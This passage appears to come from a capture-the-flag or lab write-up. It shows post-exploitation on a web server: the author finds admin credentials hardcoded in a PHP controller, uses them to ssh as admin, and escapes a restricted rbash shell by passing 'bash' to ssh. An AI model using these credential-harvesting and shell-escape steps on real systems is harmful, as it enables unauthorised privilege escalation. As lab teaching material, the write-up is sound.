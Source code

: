 Inside the machine

```bash
www-data@6b364d3940e6:/var/www/html/controllers$ ls -la
total 16
drwxr-xr-x 1 www-data www-data 4096 Feb 19 19:30 .
drwxr-xr-x 1 www-data www-data 4096 Feb 26 09:38 ..
-rwxr-xr-x 1 www-data www-data 3064 Feb 19 19:30 Api.php
-rwxr-xr-x 1 www-data www-data 2670 Feb 19 19:30 Website.php
```

Api.php had login credentials 

```bash
public static function login(){
        if( isset($_POST["username"],$_POST["password"]) ){
            if( $_POST["username"] === '**admin**' && $_POST["password"] === '**niceWorkHackerm4n**' ){
                \Output::success(array(
                    'login' => true,
                    'error' => '',       
                    'token' =>  '1f7f97c3a7aa4a75194768b58ad8a71d'            
                ));        
            }else {
                \Output::success(array(
                    'login' => false,
                    'error' => 'Invalid username / password combination'
                ));                  
            }                                                                                  
        }else{         
            \Output::success(array(
                'login' =>  false,   
                'error' =>  'Missing required parameters'                 
            ));        
        }    
    }
```

Using that changed the user to `admin`. Since `su` was not on the box and I dont have password of 

`www-data` used ssh to get admin.

```bash
www-data@6b364d3940e6:/var/www/html/controllers$ ssh admin@localhost
admin@localhost's password: 
Last login: Mon Feb 22 16:47:37 2021 from 127.0.0.1
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@6b364d3940e6:~$
```

The default shell of admin user was `rbash` so , that had to be bypasswd using ssh again

```bash
www-data@6b364d3940e6:/var/www/html/controllers$ ssh admin@localhost bash
```
